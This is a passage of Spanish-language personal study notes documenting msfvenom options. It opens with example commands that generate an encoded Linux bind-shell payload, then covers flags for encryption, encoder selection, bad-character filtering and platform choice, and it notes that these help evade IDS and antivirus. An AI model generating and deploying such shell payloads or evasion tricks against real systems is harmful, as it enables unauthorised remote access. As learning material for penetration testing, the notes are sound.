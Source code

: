 ```shell
msfvenom -p linux/x64/shell_bind_tcp LHOST=192.168.56.1 LPORT=80 -e x64/xor -f c
```
Hace lo mismo que el anterior, pero aplica un cifrado *xor* para [[Arquitectura#64 bits|arquitecturas de 64 bits]].

```shell
msfvenom -p linux/x64/shell_bind_tcp LHOST=192.168.56.1 LPORT=80 -e x86/shikata_ga_nai -f c
```
Hace lo mismo que el primero, pero aplica un cifrado *shikata ga nai* para [[Arquitectura#32 bits|arquitecturas de 32 bits]].

## `-service-name <valor>`
Define el nombre del servicio cuando se genera un ejecutable de dicho servicio.

## `-sec-name <valor>`
Define el nombre de sección cuando se generan ejecutables grandes para [[Windows]].
- Por defecto, genera una cadena de 4 letras.

## `-smallest`
Prueba todos los encoders y genera la salida escogiendo aquel que produzca un [[Payload]] de menor tamaño.

## `-encrypt <cifrado>`
Define el cifrado que se aplicará al [[Payload]].
- Si el cifrado requiere clave, puede usarse `-encrypt-key <clave>`.
- Si el cifrado requiere vector de inicialización, puede usarse `-encrypt-iv`.

> [!INFO] Se utiliza para evitar los [[IDS|IDSs]] y los [[Antivirus]].

## `-a <arquitectura>`
Define la arquitectura que usarán para el [[Payload]] y el encoder.
- *x32, x64, x86...*

## `-platform <plataform>`
Define el sistema operativo para el [[Payload]].
- [[Windows]], [[Linux]], mainframe, [[OpenBSD]], [[AIX]], [[Android]]...

> [!INFO] No hay [[Antivirus]] para mainframes.

## `-o <fichero>`
Define el nombre del fichero generado.
- Por defecto, el fichero acaba en [[STDOUT]], donde puede ser [[Pipeo|Pipeado]] a un fichero, a ==named fifo==, a `nc`...

## `-b <caracteres>`
Define una lista de caracteres a evitar.
- Se define sin espacios, sin comas, en [[Hexadecimal]] y separados por `\x`.
-> [[Inyección SQL]]
